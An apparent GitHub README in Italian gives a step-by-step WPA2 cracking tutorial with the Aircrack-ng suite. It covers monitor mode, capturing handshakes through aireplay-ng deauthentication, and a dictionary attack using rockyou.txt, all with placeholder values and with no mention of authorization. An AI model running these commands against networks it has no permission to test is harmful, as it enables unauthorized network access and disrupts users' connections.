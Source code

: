 # AIRCRACK-NG - ATTACCO WPA2

## Requisiti
* Scheda di rete con supporto Monitor Mode
* Kali Linux / Parrot OS / Distro Linux compatibili
* Aircrack-NG
* Tutti i pacchetti di Aircrack-NG
* Dizionario password (WordList), consigliato rockyou.txt

## Utilizzo generale

1. **Abilitare la modalità monitor sulla scheda di rete**

> $ airmon-ng list
> $ airmon-ng start <nome interfaccia>

2. **Scansionare le reti disponibili con Airodump-NG**

> $ airodump-ng <nome interfaccia>

3. **Utilizzare Airodump-NG e Aireplay-NG per catturare l'handshake**

Terminale 1 (Airodump):
> $ airodump-ng -c <channel> --bssid <bssid> -w <nome-file> <nome interfaccia>
  
Terminale 2 (Aireplay):
> $ aireplay-ng -0 <numero attacchi> -a <bssid> <nome interfaccia>

4. **Crackare il file .CAP contentente l'handshake tramite Aircrack-NG e la wordlist.txt scelta**
> $ aircrack-ng -a 2 -b <bssid> -w <worldlist.txt> <file .cap>
